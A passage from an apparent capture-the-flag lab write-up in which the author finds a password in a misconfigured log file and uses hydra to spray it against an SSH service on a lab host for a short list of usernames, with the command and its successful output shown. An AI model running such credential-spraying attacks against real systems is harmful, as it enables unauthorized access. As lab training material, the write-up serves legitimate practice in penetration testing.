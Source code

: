 ![image.png](image%209.png)

![image.png](image%2010.png)

Well well well. A misconfigured log file that gives us a juicy little password. This password does not work for our `love` admin on the website, so my next guess is ssh!

I made a little possible users file from the home page:

```
$ cat users
admin1
love
Love
administrator
Administrator
admin
```

And then used hydra to spray the password to all the users and got a hit!

```
$ hydra -L users -p 'P@$$w0rd@123' 192.168.211.211 ssh
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-03-04 23:48:26
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 6 tasks per 1 server, overall 6 tasks, 6 login tries (l:6/p:1), ~1 try per task
[DATA] attacking ssh://192.168.211.211:22/
[22][ssh] host: 192.168.211.211   login: love   password: P@$$w0rd@123
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-03-04 23:48:30
```

We can now ssh into the box. Time for some numeration.

